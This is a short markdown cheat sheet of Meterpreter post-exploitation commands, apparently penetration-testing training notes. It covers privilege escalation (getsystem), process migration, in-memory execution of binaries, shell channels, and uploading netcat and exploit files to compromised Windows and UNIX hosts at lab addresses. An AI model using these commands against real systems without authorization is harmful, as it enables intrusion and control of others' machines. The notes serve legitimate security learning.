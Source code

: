 ## Meterpreter

### basic usage

    ?
    getuid
    # attempt to escalate privs
    getprivs
    ifconfig
    sysinfo
    ps
    upload
    download
    migrate
    # priv escalation attempt (5 exploits are tried)
    getsystem
    # bg current meterpreter session and return to msf>
    background
    # recursively search all drives for file
    search -f rs*.asp
    # execute exe file
    execute -f c:\\Inetpub\\Scripts\\wpc.exe
    # in-memory execution of remote binary
    execute -H -i -c -m -d calc.exe -f /root/usr/share/windows-binaries/whoami.exe

### channels

```
# create command line channel 
shell
# terminate current channel
^C 
# background current channel
^Z
# list active channels
m> channel -l
# interact with the channel
m> channel -i <id>
```

### upload/download files

```
# Windows
upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec
upload /root/HACKING/192.168.31.234/wes.exe "C:\\Documents and Settings\\Administrator\\wes.exe"

download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

# UNIX
upload /root/HACKING/192.168.31.216/e.c /tmp/e.c
```
